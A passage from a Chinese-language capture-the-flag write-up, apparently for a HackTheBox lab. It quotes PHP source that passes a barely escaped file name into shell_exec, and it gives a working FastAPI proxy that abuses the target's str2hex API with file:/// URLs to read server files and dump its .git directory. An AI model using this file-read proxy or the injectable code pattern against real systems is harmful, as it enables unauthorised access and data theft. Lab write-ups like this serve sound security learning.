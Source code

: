看了一下comming_soon.html也没什么东西，但是 `utils.php` 里看到了关键得内容

```php
function git_status()
{
    $status = shell_exec('cd /var/www/image && /usr/bin/git status');
    return $status;
}

function git_log($file)
{
    $log = shell_exec('cd /var/www/image && /ust/bin/git log --oneline "' . addslashes($file) . '"');
    return $log;
}

function git_commit()
{
    $commit = shell_exec('sudo -u svc /var/www/image/scripts/git-commit.sh');
    return $commit;
}
```

### .git

在 `[git-commit.sh](http://git-commit.sh)` 下看到了 `/var/www/image/.git`

这里用git-dumper有点麻烦是，得本地提供一个服务去获取远程主机的。这里我用FastAPI～ 起到一个反向代理的作用。参考了：[https://github.com/tiangolo/fastapi/issues/1788](https://github.com/tiangolo/fastapi/issues/1788) 下的方案写出的。本来以为FastAPI对于写API来说会比较方便，实现了这个却发现或许Flask会好点。

这里新建了一个proxy.py

```python
import requests
from fastapi import FastAPI, Response, Request
from requests import get
import httpx
import json
import binascii

app = FastAPI()

@app.get('/{path:path}')
async def get_file(request: Request, response: Response):
    path = request.url.path[1:]
    print(path)
    send_uri = 'http://api.haxtables.htb/v3/tools/string/index.php'
    data = {
        'action': 'str2hex',
        'file_url': f"file:///{path}"
    }
    async with httpx.AsyncClient() as client:
        proxy = await client.post('http://api.haxtables.htb/v3/tools/string/index.php', json=data)
    body = binascii.unhexlify(json.loads(proxy.content)['data'])
    response.body = body
    response.status_code = proxy.status_code
    return response
```

